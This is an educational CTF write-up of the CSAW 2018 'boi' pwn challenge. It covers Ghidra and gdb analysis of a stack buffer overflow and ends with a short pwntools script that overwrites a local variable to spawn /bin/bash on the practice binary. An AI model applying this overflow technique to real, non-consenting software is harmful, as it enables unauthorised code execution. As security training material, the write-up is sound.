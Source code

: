 ```yaml
---
title: "Boi CSAW18"
description: "Beginner level pwn challenege from CSAW18"
---
```



![1_EfJE0qT4iMnWNdDuSkBoaw](https://github.com/user-attachments/assets/e8bb80b0-ca4a-4f64-b952-58450651e839)

`Date: 28 June 2025`

This is a pwn category challenge from CSAW 2018 CTF. In pwn challenges, we need to exploit vulnerabilities in a binary executable—typically by understanding how it handles memory—to gain unintended behavior such as leaking sensitive data, redirecting program execution, or even spawning a shell. This often involves techniques like buffer overflows, format string attacks, use-after-free, or return-oriented programming (ROP), depending on the protections enabled and the binary’s design.

### Table of Content

1. [Initial Analysis](#Initial-Analysis)
2. [Reversing with Ghidra](#reversing-with-ghidra)
3. [GDB-gef](#gdb---gef)
4. [Exploit](#exploit)
5. [Closing Words](#closing-words)

### Initial Analysis

Checking the type of the file :

```
file boi
```

```bash
boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1537584f3b2381e1b575a67cba5fbb87878f9711, not stripped
```

The given binary is a GNU/Linux executable having debugging information attached to it(not stripped).

Executing it :

```
./boi
```

```bash
Are you a big boiiiii??
yes
Fri Jun 27 04:02:58 PM IST 2025
```

It has a prompt asking a question `Are you a big boiiiii??` whatever you enter `yes` or `no` it will return you the current time and date.

But when i entered a long input something like 

```
hhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhiiii
```

having `char` length 71 it prints the time and date again but in the next prompt it try to execute the command 

```
hhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhiiii
```

Which is just the chars stripped from the input.

We can also check for the strings contained in the binary:

```
strings boi
```

`strings` command consider a sequence of char a string if there is more than 3 bytes and it ends with null byte `/0`

output (stripped) :

```bash
...
/bin/bash
/bin/date
...
```

among all the string this two strings looks interesting specially `/bin/bash`

### Reversing with Ghidra

Let's open the Binary in Ghidra 

![Screenshot from 2025-06-28 14-28-06](https://github.com/user-attachments/assets/15e6f3b9-7f78-4a27-bc80-938e5173ce24)


(I have renamed two variables `iStack_2` and `local_38`)

As we can see from the de-compiled code prompt `Are you a big boiiiii??` is printed using puts and input is stored in the variable in the `input_var` variable which of the type `undefined8` which is invalid in C but decompilers use it to indicate a 8 byte data type. 

`read()` function takes three argument - 

1. File Descriptor : It defines how input will be taken. `0` for `stdin` means standard input.
2. Variable Pointer : Address of the variable where the input data will be stored.
3. size of the variable : How much data can be stored.

As we can see here `0x18` or `24` characters can be stored in the stack starting from the address `&input_var` but if we enter a string having more than 24 chars it will overwrite the data stored in stack and this is known as **`variable buffer overflow`**. 

After taking input from the user it will compare a value stored in `Target` with `-0x350c4512` if they are equal it will execute the command `/bin/bash` and if they are not equal  it will execute `/bin/date`.

Ghidra shows value stored in `Target` is `-0x21524111` and the value it is compared with is  `-0x350c4512` but when seen in `gdb` the values are something else :

![Screenshot from 2025-06-28 14-52-36](https://github.com/user-attachments/assets/2d10a3bd-6c40-442b-947d-9f78abce1d10)


so actual value stored in `Target` is `0xdeadbeef` and the value compared with it is `0xcaf3baee` both the values are not actually signed.

Now let's get a view of the stack. You can click on any variable in the Ghidra to get this details -

![Screenshot from 2025-06-28 14-58-44](https://github.com/user-attachments/assets/164e4a22-fcde-414c-9966-bba627a5b01a)


as we can `input_var` starts at `esp-0x38` and `Target` starts at `esp-0x24` so the no. of bytes distance between them is `20` or `0x14` and the size of the `Target` is 4 byte as it is `int` also we can store `0x18` in `input_var` which covers the `0x14` bytes and also overwrite the 4 bytes of `Target`.

### GDB - gef 

We are going to use gdb wrapper [gef](https://github.com/hugsy/gef) for getting better view of the memory. 

```
gdb boi
```

setting breakpoint right after `read` function 

```bash
gef➤  break *main+100
Breakpoint 1 at 0x4006a5
```

```bash
gef➤  r
Starting program: /home/kris3c/Workspace/Learning-Resources/4-Reverse-Engineering/Nightmare/nightmare/modules/04-bof_variable/csaw18_boi/boi 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Are you a big boiiiii??
12345678900

gef➤  search-pattern "12345678900"
[+] Searching '12345678900' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffdbb0 - 0x7fffffffdbbd  →   "12345678900\n" 
```

Our input is stored in stack at address `0x7fffffffdbb0` let's check 10 bytes starting from that address -


```bash
gef➤  x/10g 0x7fffffffdbb0
0x7fffffffdbb0:	0x3837363534333231	0xa303039
0x7fffffffdbc0:	0xdeadbeef00000000	0x7fff00000000
0x7fffffffdbd0:	0x7fffffffdcc0	0xca54a3828c560900
0x7fffffffdbe0:	0x7fffffffdc80	0x7ffff7c2a1ca
0x7fffffffdbf0:	0x7fffffffdc30	0x7fffffffdd08
```

Now let's enter more than `0x14` bytes and see the results again 

Input 

```
000000000000000000001111
```

![Screenshot from 2025-06-28 16-57-32](https://github.com/user-attachments/assets/c36ebdb9-719f-43dc-98fe-618f2c4f2558)



First 8 bytes are 0's next 8 bytes are again 0's and then next 4 bytes are 0 completing 20 0's and then four 1's but one thing we should not that the input is registered/stored in stack in little endian format (Least significant bit - ex: in 502 here 2 is least significant so it will be stored as 205 )

Now our task is to give a input that has 20 0's and then 4 bytes representing `0xcaf3baee`

### Exploit 

We can easily write the payload using the library `pwn` which can be installed using :

```
pip3 install pwn
```

`Exploit :`

```python
from pwn import *

target = process("./boi")
payload = b"0" * 0x14 + p32(0xcaf3baee) #p32 is a function in the pwn module which packs 32 bit into 4 byte in little endian format
target.send(payload)

target.interactive()
```

```bash
./my_exploit.py 
[+] Starting local process './boi': pid 32352
[*] Switching to interactive mode
Are you a big boiiiii??
$ whoami
kris3c
$  
```

As you can see we got a shell.

### Closing Words 

Thanks for going through this writeup! I hope it helped you get a solid start with binary exploitation through a classic stack-based buffer overflow. The boi challenge is a great entry point into the world of reverse engineering and pwn CTFs.

Keep practicing, stay curious, and don’t be afraid to dive deeper — there's always more to learn with every binary. If you found this useful, share it with your friends and fellow hackers. Let’s grow this community of builders, breakers, and learners together.

See you in the next challenge. 










